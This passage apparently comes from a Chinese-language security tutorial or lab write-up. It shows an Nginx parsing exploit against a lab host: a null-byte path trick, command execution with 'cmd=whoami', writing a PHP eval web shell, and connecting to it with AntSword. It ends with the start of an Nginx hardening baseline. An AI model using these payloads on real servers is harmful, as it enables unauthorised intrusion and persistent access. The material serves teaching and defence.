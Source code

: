 ![image-20240713113314641](https://image.201068.xyz/assets/image-20240713113314641.png)

![image-20240713113415519](https://image.201068.xyz/assets/image-20240713113415519.png)

##### 3.文件路径

访问文件路径，burpsuite抓包

http://192.168.70.14:8080/uploadfiles/xxx.pnga

burpsuite抓包改成`xxx.png[空格][0x00].php`

```
http://192.168.70.14:8080/uploadfiles/xxx.png[空格][0x00].php
```

![image-20240713114150219](https://image.201068.xyz/assets/image-20240713114150219.png)

![image-20240713114127559](https://image.201068.xyz/assets/image-20240713114127559.png)

##### 4.改为POST请求

输入命令

```
cmd=whoami
```

![image-20240713114254110](https://image.201068.xyz/assets/image-20240713114254110.png)

##### 5.写入一句话木马

```
cmd=echo '<?php @eval($_POST["xxx"]);?>' >shell.php;ls
```

![image-20240713114702230](https://image.201068.xyz/assets/image-20240713114702230.png)

##### 6.蚁剑连接

```
http://192.168.70.14:8080/uploadfiles/shell.php
xxx
```

![image-20240713114747998](https://image.201068.xyz/assets/image-20240713114747998.png)

![image-20240713114806441](https://image.201068.xyz/assets/image-20240713114806441.png)

## 六、Nginx基线检查

### 一、server_tokens基线 

`server_tokens`指令负责在错误页面和`ServerHTTP`响应头字段中**显示NGINX版本号和操作系统版本**。不应显示此信息。
